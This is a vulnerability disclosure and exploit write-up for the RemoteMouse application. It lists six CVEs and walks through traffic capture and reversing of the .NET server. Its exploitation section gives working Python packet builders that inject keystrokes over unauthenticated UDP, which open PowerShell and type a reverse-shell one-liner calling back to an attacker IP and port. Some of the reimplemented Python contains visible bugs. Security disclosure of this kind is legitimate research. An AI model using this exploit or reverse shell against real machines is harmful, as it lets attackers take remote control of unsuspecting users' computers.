









# MouseTrap

MouseTrap is a suite of vulernabilities/exploit that targets the RemoteMouse application and server. As of release date 05/06/2021, the vulnerabilities have not been patched.

## Vulnerabilities

It's clear that this application is very vulnerable and puts users at risk with bad authentication mechanisms, lack of encryption, and poor default configuration. With 10,000,000+ downloads on the Android App Store _alone_, there are a lot of oblivious users who could be completely owned without ever realizing. Here are the vulnerabilities/weaknesses documented:

- **CVE-2021-27569**: An issue was discovered in Emote Remote Mouse through 3.015. Attackers can maximize or minimize the window of a running process by sending the process name in a crafted packet. This information is sent in cleartext and is not protected by any authentication logic.
- **CVE-2021-27570**: An issue was discovered in Emote Remote Mouse through 3.015. Attackers can close any running process by sending the process name in a specially crafted packet. This information is sent in cleartext and is not protected by any authentication logic.
- **CVE-2021-27571**: An issue was discovered in Emote Remote Mouse through 3.015. Attackers can retrieve recently used and running applications, their icons, and their file paths. This information is sent in cleartext and is not protected by any authentication logic.
- **CVE-2021-27572**: An issue was discovered in Emote Remote Mouse through 3.015. Authentication Bypass can occur via Packet Replay. Remote unauthenticated users can execute arbitrary code via crafted UDP packets even when passwords are set.
- **CVE-2021-27573**: An issue was discovered in Emote Remote Mouse through 3.015. Remote unauthenticated users can execute arbitrary code via crafted UDP packets with no prior authorization or authentication.
- **CVE-2021-27574**: An issue was discovered in Emote Remote Mouse through 3.015. It uses cleartext HTTP to check, and request, updates. Thus, attackers can machine-in-the-middle a victim to download a malicious binary in place of the real update, with no SSL errors or warnings.


## Discovery

So, like any good story, this one begins with me figuring out how to troll strangers in a video game. My friend and I were discussing ridiculous methods of playing Rainbow Six Siege, such as playing with our G29 Racing Wheel, when I suggested using one of those Android apps that allowed you to control your mouse and keyboard on your computer, using just your phone. I tried it out, promptly died and lost us the game, and started wondering how it actually worked.

I knew it used some sort of automatic host discovery, because once I installed the server on my desktop, it automatically appeared on my phone. So my first thought was some sort of broadcast advertisement of the server. I popped open Wireshark to inspect the traffic originating from my computer, and after filtering out the obnoxious amount of traffic from YouTube and Discord, I found something sending two UDP packets around 20 times per second:



Cool, so it looks like it blasts a hostname with something before it `BC 15DESKTOP-BIICVE8`. I'm not sure what the `BC 15` portion is, it isn't any sort of IP address or anything either. So it looks like the phone's application has to resolve the hostname in order to start communications with it. 

However, this makes it trivial to find our target set since the server is so kind as to broadcast the information right to us, a small python snippet that would find this for us:

```python
>>> import socket
>>> sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
>>> sock.bind(('0.0.0.0', 2007))
>>> while True:
...     host = sock.recv(20).decode('ascii', errors='ignore')[5:]
...     print(host)
```

Finally, I noticed when I clicked the name of a computer in the app, there was some sort of handshake that occured over TCP port 1978.



Not very interesting, except it looks like it broadcasts the OS in the data, and a few bytes that say "nop", which I find a little odd. However, for hacking, this seems unimportant.

## Injecting Keystrokes

I popped open Wireshark to see traffic coming across the (proverbial) wire, and discovered UDP packets being sent to my computer from my phone. To make a more controlled test, I simply typed 'a' on my phone and saw this packet appear:



Interesting, looks like a string is sent in plaintext: `key 7[ras]84`. Well at first I checked if 84 was the hex/dec for 'a', but unfortuantely it wasn't...

```python
>>> ord('a')
97
>>> hex(ord('a'))
'0x61'
```

Then I I thought perhaps the 84, the "[ras]", or some other portion of the UDP Data field was a [nonce](https://en.wikipedia.org/wiki/Cryptographic_nonce), preventing me from replaying that same packet. To test it, I took the UDP Data field, and threw it into scapy to replicate the keystroke:

```python
>>> # The time.sleep exists so I could move my mouse back to a text editor to ensure the keystroke was registered
>>> time.sleep(5); send(IP(dst="192.168.86.195")/UDP(dport=1978)/Raw(load="key  7[ras]84"))
.
Sent 1 packets.
```

Awesome, it works! That means there is no nonce, and you can freely inject keystrokes. Knowing that 84 wasn't the hex or integer for the letter we cared for, I decided to dig into the server itself and see what was going on.

## Reversing the Server

The RemoteMouse server gets installed to `C:\Program Files (x86)\Remote Mouse` by default, and immediately there are three files of interest: `RemoteMouse.exe`, `RemoteMouseCore.exe`, and `RemoteMouseService.exe`. I'm going to go ahead and guess that `RemoteMouseService.exe` is what is responsible for things like starting up on boot, and keeping the process in the background, etc. I guessed that the majority of the logic, and hopefully the message parsing logic would reside in `RemoteMouseCore.exe`, and luckily I was right.

I threw the executable into Ghidra and saw the telltale sign that it was a .NET executable: the entrypoint redirected to `_CorExeMain`.



My go-to .NET reversing tool is, and always will be, dnSpy, so I booted it up and started poking around. I landed in a class that seemed to tokenize a string around some substrings that I saw in the original message, namely "[ras]". There is a function inside of `internal class w`, with the signature `public static void a(byte[] A_0, int A_1)`. You can see the function, and my version written in Python (for ease of following) below:


```C# 
public static void a(byte[] A_0, int A_1)
{
	string text = Encoding.ASCII.GetString(A_0);
	if (text.Contains("[ras]"))
	{
		char[] separator = "[ras]".ToCharArray();
		string[] array = text.Split(separator);
		char c = Convert.ToChar(Convert.ToInt32(array[array.Length - 1]) ^ 53);
		w.VkKeyScan(c);
		new InputSimulator().Keyboard.TextEntry(c);
		return;
	}
	if (text.Contains("[+]"))
	{
		string[] array2 = text.Split(new char[]
		{
			'[',
			'+',
			']'
		}, StringSplitOptions.RemoveEmptyEntries);
		VirtualKeyCode virtualKeyCodes = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array2[1]);
		VirtualKeyCode virtualKeyCodes2 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array2[0]);
		new InputSimulator().Keyboard.ModifiedKeyStroke(virtualKeyCodes2, virtualKeyCodes);
		return;
	}
	if (text.Contains("[noe]"))
	{
		byte[] array3 = new byte[A_1 - 5];
		array3.Initialize();
		Buffer.BlockCopy(A_0, 5, array3, 0, A_1 - 5);
		string @string = Encoding.UTF8.GetString(array3);
		new InputSimulator().Keyboard.TextEntry(@string);
		return;
	}
	if (text.Contains("[wiod]"))
	{
		char[] separator2 = "[wiod]".ToCharArray();
		string[] array4 = text.Split(separator2);
		x.c((uint)w.VkKeyScan(Convert.ToChar(Convert.ToInt32(array4[array4.Length - 1]))));
		return;
	}
	if (text.Contains("[wiou]"))
	{
		char[] separator3 = "[wiou]".ToCharArray();
		string[] array5 = text.Split(separator3);
		x.b((uint)w.VkKeyScan(Convert.ToChar(Convert.ToInt32(array5[array5.Length - 1]))));
		return;
	}
	if (text.StartsWith("[kld]", true, null) && text.Contains("[*]"))
	{
		try
		{
			text = text.Substring(5).Trim();
			string[] array6 = text.Split(new char[]
			{
				'[',
				'*',
				']'
			}, StringSplitOptions.RemoveEmptyEntries);
			VirtualKeyCode virtualKeyCodes3 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array6[0]);
			List<VirtualKeyCode> list = new List<VirtualKeyCode>();
			for (int i = 1; i < array6.Length; i++)
			{
				VirtualKeyCode virtualKeyCodes4 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(array6[i]);
				list.Add(virtualKeyCodes4);
			}
			VirtualKeyCode[] modifierKeyCodes = list.ToArray();
			new InputSimulator().Keyboard.ModifiedKeyStroke(modifierKeyCodes, virtualKeyCodes3);
			return;
		}
		catch
		{
			return;
		}
	}
	if (!text.StartsWith("[klu]", true, null))
	{
		InputSimulator inputSimulator = new InputSimulator();
		VirtualKeyCode virtualKeyCodes5 = (VirtualKeyCode)GlobalsVars.getVirtualKeyCodes(text);
		inputSimulator.Keyboard.KeyPress(virtualKeyCodes5);
	}
}
```

```python
def _split(s: str, d: list) -> str:
    """
    Reimplementing the weird string.Split function .NET uses

    :param s: String to split
    :type s: str
    :param d: List of characters to delimit on
    :type d: list
    :return: Split string
    :rtype: str
    """
    for c in d:
        s = s.replace(c, '\n')
    return s.split()


def getVirtualKeyCodes(s: str) -> int:
    """
    This performs a look up given a string, i.e. "cmd", and returns the virtual key code, i.e. 91;

    :param s: String to look up
    :type s: str
    :return: Byte representing that keycode
    :rtype: int
    """
    # Just a lookup table of this https://docs.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes
    return 0x00


class w():

    @classmethod
    def VkKeyScan(cls, c: str) -> int:
        """
        Translates a character to the corresponding virtual-key code and shift state for the current keyboard.
        https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-vkkeyscana

        :param c: Character to convert
        :type c: str
        :return: virtual-keycode
        :rtype: int
        """
        # I think this technically re-assigns c, since in C# it looks like it doesn't return a value?
        return 0x0


    @classmethod
    def a(cls, A_0: bytearray, A_1: int) -> None:
        text = A_0.decode('ascii')

        if '[ras]' in text:
            array = _split(text, list('[ras]'))
            c = chr( int(array[-1]) ^ 53 )
            c = w.VkKeyScan(c)
            # InputSimulator().Keyboard.TextEntry(c)
            return
        
        if '[+]' in text:
            array2 = _split(text, list('[+]'))
            array2 = [c for c in array2 if c] # Equivalent to passing the StringSplitOptions.RemoveEmptyEntries
            virtualKeyCodes = getVirtualKeyCodes(array2[1])
            virtualKeyCodes2 = getVirtualKeyCodes(array2[0])
            # InputSimulator().Keyboard.ModifiedKeyStroke(virtualKeyCodes2, virtualKeyCodes)
            return

        if '[noe]' in text:
            array3 = bytearray()
            array3 = bytearray(A_0[5:A_1-5])
            string = bytearray.decode('ascii')
            # InputSimulator().Keyboard.TextEntry(string)
            return

        if '[wiod]' in text:
            array4 = _split(text, '[wiod]')
            # x.c(chr(int(array4[-1])))
            return
        
        if '[wiou]' in text:
            array5 = _split(text, '[wiou]')
            # x.b(chr(int(array5[-1])))
            return

        if '[kld]' in text and '[*]' in text:
            try:
                text = text[5:]
                array6 = _split(text, '[*]')
                virtualKeyCodes3 = getVirtualKeyCodes(array6[0])
                listVirtualKeyCodes = [getVirtualKeyCodes(c) for c in array6] # Renamed this var to avoid smashing reference to `list`
                InputSimulator().Keyboard.ModifiedKeyStroke(listVirtualKeyCodes, virtualKeyCodes3)
                return
            except:
                return
        
        if not text.startswith('[klu]'):
            virtualKeyCodes5 = getVirtualKeyCodes(text)
            # InputSimulator().Keyboard.KeyPress(VirtualKeyCodes5)
            pass
        
        return
```

Okay cool, easy 45 minutes wasted, but let's see how data flows to this function in the first place. I kept poking around in dnSpy until I found this class, `public class Form1 : Form` containing the function `private void b()`. Again, the function and a Python version written by me are below:

```C#
private void b()
{
    int num = 10;
    int num2 = 4;
    for (;;)
    {
        try
        {
            IPEndPoint ipendPoint = new IPEndPoint(IPAddress.Any, 0);
            byte[] array = this.a.Receive(ref ipendPoint);
            string @string = Encoding.UTF8.GetString(array);
            byte[] sourceArray = array;
            string text = @string;
            long ticks = DateTime.Now.Ticks;
            string text2 = text.Substring(0, 3);
            if (text2 == "mos")
            {
                int length = (int)Convert.ToInt16(text.Substring(3, 3));
                string s = text.Substring(6, length);
                y.a(Encoding.UTF8.GetBytes(s), ref num, ref num2, ref ticks);
            }
            else if (text2 == "abr")
            {
                int length2 = (int)Convert.ToInt16(text.Substring(3, 3));
                text.Substring(6, length2);
            }
            else if (text2 == "mpr")
            {
                int length3 = (int)Convert.ToInt16(text.Substring(3, 3));
                u.a(Convert.ToInt32(text.Substring(6, length3)));
            }
            else if (text2 == "web")
            {
                int length4 = (int)Convert.ToInt16(text.Substring(3, 3));
                text.Substring(6, length4);
            }
            else if (text2 == "key")
            {
                int num3 = (int)Convert.ToInt16(text.Substring(3, 3));
                byte[] array2 = new byte[num3];
                array2.Initialize();
                Array.Copy(sourceArray, 6, array2, 0, num3);
                w.a(array2, num3);
            }
        }
        catch
        {
            Thread.Sleep(100);
        }
    }
}
```

```python
import socket
import time

class Form1:
    @classmethod
    def b(cls) -> None:
        ipendPoint = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        sock.bind(('0.0.0.0', 1978))

        while True:
            try:
                array = sock.recv()
                string = array.decode('ascii')
                sourcearray = array
                text = string
                ticks = int(time.time()) / 10000000 # https://stackoverflow.com/questions/4554136
                text2 = text[:3]

                if text2 == "mos":
                    length = int(text[4])
                    s = text[5:length]
                    # y.a(s.encode('utf-8'), num, num2, ticks)
                
                elif text2 == "abr":
                    length2 = int(text[4])
                    text[5:length2]    
                
                elif text2 == "mpr":
                    length3 = int(text[4])
                    u.a(int(text[5:length3]))
                
                elif text2 == "web":
                    length5 = int(text[4])
                    text[5:length5]
                
                elif text2 == "key":
                    num3 = int(text[4])
                    array2 = bytearray()
                    array2 += sourcearray[6:num3+5]
                    # w.a(array2, num3)

            except:
                time.sleep(1) # Technically only 100 milliseconds

```

Alright cool, so if we send information to the server that starts with "key" we can route it to the previous function and inject keystrokes.

## Exploitation

So how can we exploit this? Essentially, I want a way to run arbitrary commands on a RemoteMouse server from my computer, so let's build a Python function that will construct a list of strings that will execute what we want it to execute.

To start off, let's go with the trivial single character injection; we do this by navigating to the code path with the "[ras]" substring detection. Looking at how the data is parsed when we first hit the wire (in the `Form1.b` method), the data takes the form of `key <len>[<fmt>]data`. In this case, we want the `ras` format for single character keystroke injection (don't ask me what the "ras" means), and we already know how they convert the characters using the XOR-encryption.

```python
def char2pkt(s: str) -> str:
    """
    Converts an individual character into the full single-character injection packet

    :param s: character to inject
    :type s: str
    :return: packet
    :rtype: str
    """
    i = ord(s) ^ 53
    rhs = "[ras]{}".format(i)
    return "key  {}{}".format(len(rhs), rhs)
```

Nice! Well, looking ahead, what do we actually want to type out for an example exploit? How about opening up powershell to get a reverse-shell callback. To do this, we'll need two special packets, and then just a bunch of ASCII. So let's start out with the two special characters: `WIN+R` and `ENTER`.

`ENTER` is a little odd at first. We see that the logic handling it is at the very last conditional, checking to see that "[kld]" is _not_ in the text, and if so, straight up passes the text to the `getVirtualKeyCode` function. By looking at the function in dnSpy, we can see it can expect the "rtn" string (everything is converted to lower-case). Now, since this packet won't need the special "formats" we can straight up pass the virtual key code string representation, and the number to use will be 3 since we need the `Form1.b` to take the last 3 characters out. This gives us `key 3rtn`.

```python
def special2pkt(kc: Keycodes) -> str:
    """
    Converts a special character (ENTER, Win, etc.) to a packet.
    This function does NOT validate the special character string is correct.

    :param s: keycode
    :type s: str
    :return: packet
    :rtype: str
    """
    return "key {}{}".format(len(kc.value), kc)
```

`WIN+R` is going to be a little trickier, we have to combine the keystrokes rather than send them individually. The first function has a conditional looking for "[kld]", and if it discovers it, uses the "[*]" as a token. Then it takes the first character of the text, saves that as the "base" keystroke, if you will, and all the other special keys delimited by "[\*]". Then it passes these all to a function. So for example, we could open up Task Manager with the key combinations of CTRL+SHIFT+ESC. This translates to `key 23[kld]esc [*]ctrl[*]shift`.

```python

def combo2pkt(s: str, kc: Keycodes) -> str:
    """
    Generates a packet for key combinations (i.e. CTRL+SHIFT+ESC)

    :param s: base key
    :type s: str
    :param kc: modifier keycodes
    :type kc: Keycodes
    :return: [packet
    :rtype: str
    """
    if len(s) != 1:
        s = Keycodes[s].value
    modifiers = '[*]'+'[*]'.join([k.value for k in kc])
    rhs = "[kld]{} {}".format(s, modifiers)
    return "key {}{}".format(len(rhs), rhs)
```

So now, we can combine all of this together. We'll write a special parser function just to take a string in and construct a series of packets for it, that way we cover our bases, but for now, let's make this all works by doing a manual test run.

We essentially need to execute: `[WIN+R]powershell.exe[ENTER]<cmd>[ENTER]` (where `<cmd>` is my reverse-shell command). So let's string them all together:

```python
VICTIM_IP = "192.168.86.195"
cmd = 'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((""192.168.20.133"",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(""/bin/sh"")\''

pkts = []
pkts.append(combo2pkt('r', Keycodes.WIN))
pkts += [char2pkt(c) for c in "powershell.exe"]
pkts.append(special2pkt(Keycodes.ENTER))
pkts.append(special2pkt(Keycodes.ENTER))
pkts.append(special2pkt(Keycodes.ENTER))
pkts += [char2pkt(c) for c in cmd]
pkts.append(special2pkt(Keycodes.ENTER))

import time;time.sleep(5)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
for pkt in pkts:
    time.sleep(0.1)
    print(pkt)
    sock.sendto(pkt.encode('utf-8'), (VICTIM_IP, 1978))

```

It works! Something important to note is that there seems to be a small race condition when you send too many keystrokes too close together, so I spaced them out with a small timer. I also had a hard time getting Powershell to give me a reverse-shell for some reason, but I did get the TCP callback to my netcat listener, I suspect it was just Windows being Windows.

## Passwords

It looks like in the FAQ for Remote Mouse, they explain that a password can be set to prevent others from using your computer:

> Click Remote Mouse icon on the taskbar (top right corner on Mac, bottom right corner on PC), choose Settings" -> Set password for your computer -> Apply

